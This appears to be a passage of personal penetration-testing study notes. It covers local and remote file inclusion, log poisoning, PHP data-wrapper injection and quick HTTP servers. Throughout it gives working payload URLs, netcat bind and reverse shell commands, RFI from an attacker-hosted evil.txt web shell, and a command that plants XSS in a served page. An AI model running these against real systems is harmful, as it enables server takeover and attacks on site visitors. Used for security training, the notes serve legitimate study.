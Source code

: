                         adds it to the web servers log file. now do LFI
                #LFI execution
                    point to local file with our malcode. construct url with
                    the cmd we want run.
                    `file=c:\xampp\apache\logs\access.log&cmd=ipconfig`
                    tells web server to view the contents of the log file we
                    posioned and when it reads and runs `cmd` we wan the
                    `ipconfig` cmd ran.
                    with this we can tell the web app to send us a `bind shell`
                    web app url: `cmd=nc -nlvp 4444 -e cmd.exe`
                    linux: `nc -nv <ip> 4444`
                        when linux connects to the ip, the web app sends
                        a `cmd shell`
            #remote file inclusion (RFI)
                less common but easier to exploit. needs server to have
                `allow url include` set to `on` newer versions have this 
                    set to `off` by default.
                check for this vuln by setting up `nc -nvlp 80` on kali
                    and on the php web app changing file to
                    `file=http:<kali ip>/evil.txt`
                    if a connection is made and closed than php has the url
                    include set to `on`. could point to any web server we
                    own.
                we can use the same payload as in LFI.
                    [php_cmd_payload](php_cmd_payload)
                    put in `/var/www/html/evil.txt` and start apache
                    web server `systemctl start apche2`
                    input RFI url in the php web app and send a cmd
                        `file=http://<ip>/evil.txt&cmd=ipconfig`
                    this a simple `web shell`: small piece of soft 
                        that provides web-based command line interface for
                        executing commands. for the most common look
                        in `/usr/share/webshells` just set LHOST and
                        LPORT in `php-reverse-shell.php` and `nc -nvlp <LPORT>`
                        to catch a shell.
            #expanding your repertoire with other http servers
                `python -m SimpleHTTPServer <any TCP port>`
                `python3 -m http.server <any tcp port>`
                    will host a dir from the current working path!
                `php -S <ip>:<port>`
                `ruby -run -e httpd . -p <port>`
                    `-run` replace common unix commands
                    `.` host current dir
                `busybox httpd -f -p <port>`
            #php wrappers
                protcal wrappers are filters
                if you can't poison a local php file use:
                    change `file=` to `file=data:<type>,<data>`
                        data wrapper will make the page treat it as a file
                        and include it in the page.
                    `file=data:text/plain,hello world`
                        will print hello world in plain text
                    `file=data:text/plain,<?php echo shell_exec("dir") ?>`
                        will run the cmd of `dir`
                    we can also get a `reverse shell`
                    `file=data:text/plain,<?php echo shell_exec("nc -nlvp 4444 -e mcd.exe") ?>`
                    connect form hack box `nc -nv <ip> 4444`
                    might be able to upgrade shell with `powershell`
                    from here we can:
                        edit a file that is displayed on the web server
                            such as a tab or page with XSS
                        from cmd shell `echo "<script>alert(`test`)</script>" >> menu.php`
                        now when ANYONE visists the page the script will
                            run becuase we changed it on the server side!